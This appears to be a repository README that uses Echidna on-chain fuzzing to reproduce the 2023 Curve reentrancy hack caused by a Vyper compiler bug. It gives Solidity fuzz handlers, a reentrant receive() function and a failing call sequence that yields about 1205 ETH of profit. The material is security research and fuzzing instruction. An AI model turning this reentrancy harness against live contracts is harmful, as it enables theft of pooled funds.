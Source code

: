 # Curve Hack - Fuzzing Reproduction

## Description
This repository contains a reproduction of one of the hacks that occurred due to a reentrancy bug in Curve, caused by a compiler issue in Vyper. Assets stolen from the Curve pools due to this security flaw exceeded $41 million. For more details, refer to the [Vyper compiler saga](https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265) on Rekt.

## Methodology
To reproduce the bug, we utilize Echidna's on-chain fuzzing. 

We define a single invariant to check if an attacker can increase their ETH balance.
```solidity
function testProfit() public {
    uint256 balance = address(this).balance;
    gte(initialBalance, balance, "Profit test");
}
```

We then add handlers to add and remove liquidity to the Curve pool, focusing solely on ETH for simplicity. By clamping, we ensure the fuzzer only adds or removes an amount within the attacker's current balance.
```solidity
    function addLiquidity(uint128 _amount) public {
        _amount = uint128(clampBetween(_amount, 0, address(this).balance));

        uint256[2] memory amount;
        amount[0] = _amount;
        amount[1] = 0;

        pool.add_liquidity{value: _amount}(amount, 0);
    }

    function removeLiquidity(uint128 _amount) public {
        _amount = uint128(
            clampBetween(_amount, 0, pool.balanceOf(address(this)))
        );

        uint256[2] memory amount;
        amount[0] = 0;
        amount[1] = 0;

        pool.remove_liquidity(_amount, amount);
    }
```

Given the hack involves reentrancy, we implement a rudimentary reentrancy handler in the `receive` function.
```solidity
    receive() external payable {
        if (reentrancyEnabled) {
            uint256 functionId = (reentrancyFunction % 2 == 1) ? 0 : 1;

            if (reentrancyFunction == 0) {
                addLiquidity(reentrancyAmount);
            } else if (reentrancyFunction == 1) {
                removeLiquidity(reentrancyAmount);
            }
        }
    }
```

The behavior of this handler is controlled by global variables, which are set by the fuzzer.
```solidity
    function setReentrancyEnabled(bool _reentrancyEnabled) public {
        reentrancyEnabled = _reentrancyEnabled;
    }

    function setReentrancyFunction(uint8 _reentrancyFunction) public {
        reentrancyFunction = _reentrancyFunction;
    }

    function setReentrancyAmount(uint128 _reentrancyAmount) public {
        reentrancyAmount = _reentrancyAmount;
    }
```

Echidna typically detects the bug within 5 minutes using a single worker. The sequence leading to the hacks can be seen below.
```
testProfit(): failed!💥
  Call sequence, shrinking 1739/5000:
    Fuzz.setReentrancyAmount(62297794394773161987899947455086967966)
    Fuzz.addLiquidity(287947091533324425929789050717863786957)
    Fuzz.removeLiquidity(209948338645151591393209938770631982993)
    Fuzz.addLiquidity(58576701019271218016466182754478192010)
    Fuzz.removeLiquidity(967)
    Fuzz.setReentrancyEnabled(false)
    Fuzz.removeLiquidity(247696123990480820083721037276151777885)
    Fuzz.testProfit()

emit AssertGteFail(«Invalid: 1000000000000000000000000<1001205683176915736170634 failed, reason: Profit test»)
```

Total profit: `1205683176915736170634` (1205 ETH).

## Future Research
The current Proof of Concept is deliberately kept simple to optimize for fuzzing. Enhancing it to resemble a more comprehensive fuzzing suite could include:
-  Adding a handler for `exchange`
- Support for adding liquidity to all tokens in the pool
- Simulating multiple actors

While these additions would increase the complexity and slow down the fuzzing process due to a larger search space, they would still effectively reproduce the hack.

## Links
- https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265
- https://hackmd.io/@LlamaRisk/BJzSKHNjn
- https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2023-07/Curve_exp01.sol

